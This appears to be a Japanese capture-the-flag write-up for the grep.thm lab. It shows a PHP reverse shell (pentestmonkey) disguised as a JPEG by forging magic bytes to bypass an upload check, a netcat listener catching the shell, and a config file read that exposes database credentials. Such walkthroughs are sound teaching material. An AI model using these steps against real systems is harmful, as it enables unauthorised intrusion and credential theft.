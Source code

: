 - 拡張子チェックは未実装
- 最初の 4 バイトが、jpg, png, bmp のいずれかと一致したら OK としている。

pentestmonkey の PHP を、最初の 4 バイトを操作して JPEG に見せかける。

```shell
$ file ./pentest.php
./pentest.php: JPEG image data
```

アップロードすると、成功メッセージが返ってきた。

```
{"message":"File uploaded successfully."}
```

https://grep.thm/api/uploads/pentest.php にアクセスするとシェルを取得できた。

```shell
$ nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.62.83] 40064
Linux ip-10-10-62-83 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 07:03:39 up  1:46,  0 users,  load average: 0.04, 0.01, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$
```

## シェル

config.php に DB 接続情報がありそうなことは気づいていたので確認。

```shell
www-data@ip-10-10-62-83:/var/www/html$ cat /var/www/html/api/config.php
<?php

$host = 'localhost';
$db   = 'postman';
$user = 'root';
$pass = 'password';
$mysqli = new mysqli($host, $user, $pass, $db);

if ($mysqli->connect_error) {
    die('Connect Error (' . $mysqli->connect_errno . ') ' . $mysqli->connect_error);
}
?>
```

しかし、mysql コマンドは root しか使えない設定になっていた。

```shell
www-data@ip-10-10-62-83:/var/www/html$ ls -al /usr/bin/mysql
-r-x------ 1 root root 7799952 May 11  2023 /usr/bin/mysql
```
